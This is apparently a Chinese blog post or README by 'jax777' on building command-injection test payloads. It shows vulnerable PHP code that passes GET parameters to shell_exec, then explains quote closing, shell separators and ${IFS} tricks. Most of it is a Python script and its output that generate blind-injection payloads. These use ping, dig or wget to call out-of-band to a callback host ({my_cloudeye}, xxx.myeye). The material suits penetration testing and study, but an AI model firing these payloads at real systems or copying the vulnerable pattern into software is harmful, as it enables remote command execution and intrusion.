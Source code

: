  # 关于命令注入的测试payload生成

- Author：jax777


 ## 示例

 ```
 <?php
    $site = $_GET["site"];
    $command = 'ping '.$site;
    $out = shell_exec($command)
    echo $out;
?>
 ```
 以上代码存在明显命令注入漏洞

简单构造 `site=xx.com;attack;`  即可达到执行任意attack命令的目的

再看一个近期抓到的实例


```
<!--?php
 //发送命令
 $in_url = $_GET["inurl"];
 $data_base = $_GET["database"];
 #echo $data_base;
 #$data_base = urldecode($data_base);
 $port = $_GET["port"];
 $circle_num = $_GET["circle_num"]
 $charset = $_GET["charsets"];
 #echo $data_base;
 $exec_path = dirname(__FILE__);
 $out = shell_exec("cd " .$exec_path. "; sh fgrep_union.sh \"" .$in_url."\" \"".$data_base."\" \"".$port."\" \"".$circle_num."\" \"".$charset."\" 2>/tmp/a.err"); #$out = ("cd " .$exec_path. "; sh fgrep_union.sh \"" .$in_url."\" \"".$data_base."\" \"".$port."\" \"".$circle_num."\" \"".$charset."\" 2>/tmp/a.err");
 echo $out;
 ?>
```

这个点显然是存在命令注入的，可以明显的看出上一个的简单payload就不再适用了。
可以看出这里字符拼接时前后都用双引号包裹了，要实现注入首先要前后闭合。
例如下面这样的payload `inurl=xxx";command;"xxx`


## 一般化

- 思考一下上述payload由哪些部分组成

|| | |
|--------------------|
|前缀| PREFIX | xxx|
|闭合|close|"|
|命令拼接|cmd_char|;|
|执行语句|COMMAND|attack|
|命令拼接|cmd_char|;|
|闭合|close|"|
|后缀| SUFFIX  | xxx|

上述各个部分就组成了一个基本测试payload。
这样看来第一个payload就是上面组成的简化，如不需要闭合，以及后缀可以看作空字符。

这里还缺了一个最重要的部分，要执行的命令command。

- 考虑command组成

  测试时为了通用性，测出无回显的命令注入，一般会将结果通过第三方信道带回查看，如通过dns或http请求带回。（请求cloudeye）
  例如

  `wget xxx.myeye`
  `ping p.myeye`

  不难看出可以如下区分

| | ||
|--------------------|
|命令| cmd | wget|
|分隔符| cmd_sep | 空格|
|参数| my_cloudeye | xxx.myeye|


下面要做的就是给各个组成部分填空

- 填空

  - 前缀后缀 明显是一个字符串，有时还可为空字符。

  - 闭合 目的是为了保证语法正确，可能取值有单引号 双引号 以及 空字符

  - 命令拼接 考虑shell的语法有如下几种 | ; & 反引号  换行符 $()

  - 命令cmd 基本的产生http或dns请求的命令 如 wget curl ping dig

  - 分隔符 cmd_sep  常见的空格 tab键 以及${IFS}  （利用环境变量获得分隔符）

  - 参数 my_cloudeye  自己的cloudeye 标记


  |组成| 可用值 |
  |--------------------|
  | PREFIX | xxx|
  |close|" ' 空字符|
  |cmd_char|; 管道符  & 反引号  换行符 $() |
  |PREFIX | xxx|
  | cmd | wget ping curl dig|
  |cmd_sep | 空格 tab ${IFS}|
  | my_cloudeye | xxx.myeye|


 ## 生成脚本

 下面给出一个payload生成的脚本
```
#!/usr/bin/env python
# -*- encoding: utf-8 -*-
# __author__ jax777

PREFIX = 'da.gg.com'
SUFFIX = 'da.gg.com'
cmd_sep = [     
	'${IFS}',
	'	',
	' '
]


cmd_char = [
#{CMDCHAR}
	['`','`'],
	['$(',')'],
	[';',';'],
	['|','|'],
	['&','&'],
	['%0a','%0a'],


]

close = [
#{CLOSE}
	"\'",
	'"',
	''
]

cmd = [
	'ping',
	'dig',
	'wget'
]


payload = []
payload.append('{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}')
for b in cmd_char:
	payload.append(b[0]+'{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}'+b[1])
	for c in close:
		payload.append(PREFIX+c+b[0]+'{COMMAND}'+'{CMDSEP}'+'{my_cloudeye}'+b[1]+c+SUFFIX)


i = 1
for e in cmd:
	for a in cmd_sep:
		if '${IFS}' == a and 'ping' in e:
				pass
		else:
			for _ in payload:
				_=_.replace('{COMMAND}', e)
				_=_.replace('{CMDSEP}', a)
				_=_.replace('{my_cloudeye}',str(i)+".{my_cloudeye}")
				i = i + 1
				print _


```


 - 运行结果如下  发送payload时将{my_cloudeye}替换成自己的接收地址即可

 ```
 ping	1.{my_cloudeye}
`ping	2.{my_cloudeye}`
da.gg.com'`ping	3.{my_cloudeye}`'da.gg.com
da.gg.com"`ping	4.{my_cloudeye}`"da.gg.com
da.gg.com`ping	5.{my_cloudeye}`da.gg.com
$(ping	6.{my_cloudeye})
da.gg.com'$(ping	7.{my_cloudeye})'da.gg.com
da.gg.com"$(ping	8.{my_cloudeye})"da.gg.com
da.gg.com$(ping	9.{my_cloudeye})da.gg.com
......
 ```

自此一个完整的命令注入测试payload就诞生了。


00，请多多指教。
